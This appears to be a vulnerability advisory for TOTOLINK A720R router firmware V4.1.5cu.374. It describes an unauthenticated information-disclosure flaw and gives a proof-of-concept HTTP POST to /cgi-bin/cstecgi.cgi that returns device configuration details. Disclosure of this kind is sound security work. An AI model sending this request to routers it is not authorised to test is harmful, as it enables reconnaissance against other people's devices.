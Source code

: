 # Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html

# Affected version

V4.1.5cu.374

# Vulnerability details

The TOTOLINK A720R V4.1.5cu.374 firmware contains an unauthenticated system information disclosure vulnerability. An attacker can exploit this flaw by sending a crafted POST request with the parameter `{"topicurl":"getInitCfg"}` to `/cgi-bin/cstecgi.cgi`, exposing sensitive device configuration details including firmware version, hardware model, supported network features, operational modes, and system parameters.

# Poc

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.140.79
Content-Length: 25
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.140.79
Referer: http://192.168.140.79/basic/index.html?time=1745238634622
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"topicurl":"getInitCfg"}
```

![图 0](img/3bc9d0556ee65655fa005c4061dbd64b68f74168eb1624d7d94993a5fcdccf4d.png)  
